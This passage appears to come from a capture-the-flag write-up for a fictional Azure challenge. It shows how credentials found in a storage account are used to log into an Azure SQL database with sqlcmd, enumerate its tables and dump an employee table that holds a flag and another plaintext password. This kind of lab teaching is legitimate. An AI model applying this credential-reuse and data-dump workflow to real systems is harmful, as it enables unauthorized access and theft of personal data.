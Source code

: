
## Part 2: Database Access

### Context
With the database credentials found in the storage account, we must now access the database to continue our investigation.

### Objective
Connect to the Azure SQL database and retrieve stored information.

### Solution

#### Step 1: Database Identification
Azure SQL databases follow the pattern: `{name}.database.windows.net`

Following the same pattern as the storage account, we test:
`monacogovernement.database.windows.net`

```bash
# Test database connectivity
nslookup monacogovernement.database.windows.net
```

#### Step 2: Database Connection
With the credentials `monacosql:wElOvECLOUD!` found in the storage account:

```bash
# Use sqlcmd or Azure CLI
sqlcmd -S monacogovernement.database.windows.net -U monacosql -P 'wElOvECLOUD!' -d elections
```

Or with Azure CLI:
```bash
az sql db show-connection-string --server monacogovernement --name elections
```

#### Step 3: Table Enumeration
```sql
-- List tables
SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES;
```

We discover the `dbo.Employes` table.

#### Step 4: Sensitive Data Extraction
```sql
-- Explore the employees table content
SELECT * FROM dbo.Employes;
```

This table contains government employee information, including:
- The flag for this part
- The king's secretary credentials (needed for part 3)

Typical result:
```
Mail                                                Password
flag-databases-should-not-be-accessible-to-everyone NULL
SecretaryOfTheKing@paullorierproton.onmicrosoft.com ViveLeRoi!
```
